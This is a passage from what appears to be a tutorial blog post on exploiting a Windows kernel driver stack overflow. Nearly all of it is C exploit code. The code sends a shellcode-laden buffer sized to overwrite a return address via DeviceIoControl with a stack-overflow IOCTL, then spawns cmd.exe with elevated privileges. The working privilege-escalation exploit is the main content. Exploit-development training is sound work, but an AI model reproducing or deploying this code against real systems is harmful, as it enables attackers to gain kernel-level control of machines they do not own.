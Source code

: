           _Out_opt_   LPDWORD      lpBytesReturned,
          _Inout_opt_ LPOVERLAPPED lpOverlapped
        );
    */

    DWORD size_returned = 0;
    BOOL bof = DeviceIoControl(
        driverHandle,                       /* handler for open driver */
        STACK_IOCTL,                        /* IOCTL for the stack overflow */
        lpInBuffer,                         /* our user buffer with shellcode/address_field */
        RET_OFFSET + sizeof(DWORD),         /* want up to the offset + 4 (for the address_field) sent */
        NULL,                               /* no buffer for the driver to write back to */
        0,                                  /* above buffer of size 0 */
        &size_returned,                     /* dump variable for byte returned */
        NULL);                              /* ignore overlap */

/* check if the device IO sent fine! */
    if (!bof) {
        printf("[!] Error with DeviceIoControl\n");
        exit(1);
    }
    else {
        printf("[*] Elevated Shell!\n\n\n");
    }

    VirtualFree(userBuffer, sizeof(shellcode), MEM_RELEASE);
        userBuffer = NULL;


}

int main()
{
    printf("[*] Launching Exploit...\n");
    exploit();

    /* pop a shell with new privileges! */
    system("cmd.exe");
    system("pause");


    return 0;
}
{% endhighlight %}


Exploit launched and driver exploited!
